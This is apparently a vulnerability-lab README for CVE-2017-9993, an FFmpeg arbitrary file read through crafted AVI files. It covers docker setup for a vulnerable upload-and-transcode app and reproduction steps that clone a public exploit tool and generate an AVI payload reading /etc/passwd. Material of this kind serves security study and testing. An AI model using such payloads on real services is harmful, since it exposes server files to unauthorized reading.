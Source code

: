 # FFmpeg AVI Arbitrary File Read (CVE-2017-9993)

[中文版本(Chinese version)](README.zh-cn.md)

FFmpeg is a free and open-source software project consisting of a suite of libraries and programs for handling video, audio, and other multimedia files and streams.

FFmpeg 2.4.x before 2.4.14, 2.8.x before 2.8.12, 3.0.x before 3.0.9, 3.1.x before 3.1.9, 3.2.x before 3.2.6, and 3.3.x before 3.3.2 does not properly restrict HTTP Live Streaming filename extensions and demuxer names, which allows attackers to read arbitrary files via crafted playlist data.

This issue was featured in PHDays conference 2017, and it is actually an incomplete fix for [CVE-2016-1897](../CVE-2016-1897/). FFmpeg officially patched file reading and SSRF vulnerabilities in m3u playlists. However, by crafting malicious AVI files, similar vulnerabilities still exist in the playlist, leading to CVE-2017-9993.

References:

- <https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/>
- <https://github.com/neex/ffmpeg-avi-m3u-xbin>
- <https://www.anquanke.com/post/id/86337>

## Environment Setup

Execute the following commands to build and start the environment:

```
docker compose up -d
```

After the server starts, it will listen on port 8080. Visit `http://your-ip:8080/` to access the application, the application is a simple video player that allows users to upload and play videos.

## Vulnerability Reproduction

First, download the exploit tool and generate a malicious payload:

```bash
# Clone the exploit repository
git clone https://github.com/neex/ffmpeg-avi-m3u-xbin
cd ffmpeg-avi-m3u-xbin

# Generate payload
./gen_xbin_avi.py file:///etc/passwd exp.avi
```

Upload the generated `exp.avi` file at `http://your-ip:8080/`. The backend will attempt to transcode your uploaded video using FFmpeg. During this process, due to the arbitrary file read vulnerability, the file content will be embedded in the transcoded video:

![](01.png)

You can also execute `docker compose exec web bash` to enter the environment and test FFmpeg directly.
